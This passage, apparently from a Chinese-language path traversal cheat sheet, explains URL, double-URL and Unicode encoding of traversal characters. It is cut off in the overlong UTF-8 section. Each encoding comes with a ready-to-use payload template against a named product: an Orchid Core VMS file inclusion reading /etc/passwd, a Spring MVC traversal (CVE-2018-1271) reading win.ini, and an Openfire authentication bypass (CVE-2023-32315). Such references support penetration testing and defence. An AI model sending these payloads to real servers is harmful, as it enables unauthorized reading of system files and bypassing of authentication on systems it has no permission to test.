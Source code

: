 | 字符 | 编码后 |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |

**示例：** IPConfigure Orchid Core VMS 2.0.5 - 本地文件包含

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### 双重URL编码

双重URL编码是对字符串应用两次URL编码的过程。在URL编码中，特殊字符被替换为%后跟其十六进制ASCII值。双重编码会对已经编码的字符串重复此过程。

| 字符 | 双重编码后 |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |

**示例：** Spring MVC 目录遍历漏洞 (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

### Unicode编码

| 字符 | Unicode编码 |
| --- | -------- |
| `.` | `%u002e` |
| `/` | `%u2215` |
| `\` | `%u2216` |

**示例**：Openfire 管理控制台 - 认证绕过 (CVE-2023-32315)

```js
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

### 过长的UTF-8 Unicode编码

UTF-8标准规定每个码点使用表示其有效位所需的最少字节数进行编码。任何使用超过所需字节数的编码都被称为"过长"编码，在UTF-8规范中被视为无效。此规则确保码点与其有效编码之间的一对一映射，保证每个码点都有单一、唯一的表示形式。
